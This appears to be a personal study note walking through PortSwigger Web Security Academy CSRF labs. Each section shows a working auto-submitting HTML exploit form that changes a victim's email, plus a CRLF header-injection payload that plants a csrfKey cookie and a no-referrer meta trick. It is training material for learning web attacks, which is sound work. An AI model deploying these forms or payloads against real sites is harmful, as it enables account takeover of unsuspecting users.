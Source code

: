 Requirement for csrf

	• Relevant action
	• Cookie based session handling
	• No unpredictable request parameters 

Can be automated using  burpesuite pro edition 



```
<form method="POST" action="https://0a39003e04cac15b80985df6004b00b0.web-security-academy.net/my-account/change-email">
	 <input type="hidden" name="email" value="anything%40web-security-academy.net"> </form> 
<script> 
	document.forms[0].submit();
 </script>
```

From <https://portswigger.net/web-security/csrf/lab-no-defenses> 


```
<form method="POST" action="https://0a39003e04cac15b80985df6004b00b0.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="viet@gmail.com">
</form>
<script>
        document.forms[0].submit();
</script>
```
**CSRF where token validation depends on request method**




Intercept we notice a csrf token
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/c04ead97-a67a-46ac-9cec-52adef46971d)


Remove csrf token we get a response that we need to change it
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/6c89d56c-5b43-4c9b-a612-d9268239279b)



Changine request to get and removing email change we can send it and get a 302 response
"Follow redirection" we notice that we changed the email without a csrf token
```
<form action="https://0a05007c04bf708c81e28a7200120078.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="viet2@gmail.com">
</form>
<script>
        document.forms[0].submit();
</script>
```

**CSRF where token validation depends on token being present**

![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/1b0c0949-c707-4f48-ab19-527524cf985e)


Deleting csrf parameter result in the 302 response 
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/771e5618-9d4d-4112-af7c-a90bee8ca4e2)


Exploit: 
```
<form method="POST" action="https://0aa1003d040b2b3f81817a48001f00f2.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="vi@gmail.com">
</form>
<script>
    document.forms[0].submit();
</script>
```

**CSRF where token is not tied to user session**

Cant changed email when removing csrf token
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/7f8f8bc7-fb21-49e1-98a5-c9e787f3e597)

Cant change to get request either to change email
See if csrf token is tied to user session
Check by logging into another user account and copying there csrf token 
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/b26f4b63-6f22-490f-aee2-e96c485aae5c)

 



Replacing the csrf parmeter we get a 302 response 
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/16b7e052-d04d-40c3-a6b2-b7a3357a4789)



CSRF token is used every time we changed an account so if we want to change another one we need another csrf token 
Our exploit:
```
<html>
    <body>
    <script> history.pushState(' ',' ', '/')</script>
    <form action="https://0a08004803a6fb1a8040b860005c004f.web-security-academy.net/my-account/change-email" method="POST">
        <input type="hidden" name="email" value="vffasf@gmail.com"/>
        <input type="hidden" name="csrf"  value="aIOCt2aXj52tiS7BFW5EVCy8k7UG8siS" />
        <input type="submit" value="submit request"/>
    </form>
    <script>
        document.forms[0].submit();
    </script>
    </body>
</html>
```

**CSRF where token is tied to non-session cookie**

We got a csrfkey
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/0db13860-e234-45b5-a8cc-7198ecc73da2)


Looks like csrf key is tied to session key 

Testing csrf token and csrf key 
```
1. Check if csrf token is tied to the csrf cookie 
2. Submit a valid csrf token from another user
```
	
Test case 1 fail
Changing csrf parameter doesn't give 302 response

Test case 2 fail
Using another user csrf 
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/310db429-3ca8-4448-a95d-093e30d6ee56)


Checking other cookie parameter

Cookie: Status 302
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/ac9e04c0-338c-41d5-b335-b420fae55b48)

```
session=0HKiqjYhk7G0eFu5p388lxZHhaQKP0ny; 
csrfKey=fbdsO5lxQm8jH4t5GvzCOG0nnDVlfcPC
```
	
	
Exploit:
Case 2 is met 
To exploit
```
1.  inject a csrfKey cookie in the user session (http header injection)
2. Send a csrf attack to the victim with a known csrf token 

?search=test%0d%0aSet-Cookie:%20csrfKey=YOUR-KEY
Get a 302 when we set the key from intercepting search
``` 
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/3e0a38e5-9333-444e-a6bd-a4d89399af54)


Exploit:

```
<html>
    <body>
    <script> history.pushState('','', '/')</script>
    <form action="https://0ab6004a037bf6198423a1cb00b4004d.web-security-academy.net/my-account/change-email" method="POST">
        <input type="hidden" name="email" value="v@gmail.com"/>
        <input type="hidden" name="csrf"  value="aIOCt2aXj52tiS7BFW5EVCy8k7UG8siS" />
        <input type="submit" value="submit request"/>
    </form>
    <img src="https://YOUR-LAB-ID.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrfKey=YOUR-KEY%3b%20SameSite=None" onerror="document.forms[0].submit()">
    </body>
</html>
```

**CSRF where Referer validation depends on header being present**
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/7500b508-bbda-4d08-a4cf-e47133e131e9)



Meet 3 requirement for csrf attack

A relevant action: change email
Cookie-based session handling: session cookie
No unpredictable request parameter: no csrf token in parameter 

If we host a typical csrf form 
```
<html>
    <body>
    <script> history.pushState(' ',' ', '/')</script>
    <form action="https://0af6002b044ec32084de63e900bb0053.web-security-academy.net/my-account/change-email" method="POST">
        <input type="hidden" name="email" value="vffasf@gmail.com"/>
        <input type="submit" value="submit request"/>
    </form>
    <script>
        document.forms[0].submit();
    </script>
    </body>
</html>
```
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/d2676c46-8bff-4fc1-8d25-3506009a30b2)


We will get 
"invalid refer header"
There checking the refer header to make sure there no crossdomain request 
Refer header is a optional request header that contain the url of the page that is making the request 
Defend against csrf attack to make sure that the request came from the same domain as the website 
If it came with anything else it will be ban

Refer header is shown on our request 
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/41c3f723-4762-49e9-93c4-1f424f379ada)


Not a good defense cause the referer header can be spoof

Testing referer header for csrf attacks:
```
1. Remove the referer header
	Got a 302 response
```
We need to make sure our form don’t accept referer header
Use the meta tag 
Will not include refer tag
```
<html>
    <head>
        <meta name="referrer" content="never">   
    </head>
    <body>
    <script> history.pushState(' ',' ', '/')</script>
    <form action="https://0af6002b044ec32084de63e900bb0053.web-security-academy.net/my-account/change-email" method="POST">
        <input type="hidden" name="email" value="vffasf@gmail.com"/>
        <input type="submit" value="submit request"/>
    </form>
    <script>
        document.forms[0].submit();
    </script>
    </body>
</html>
```


























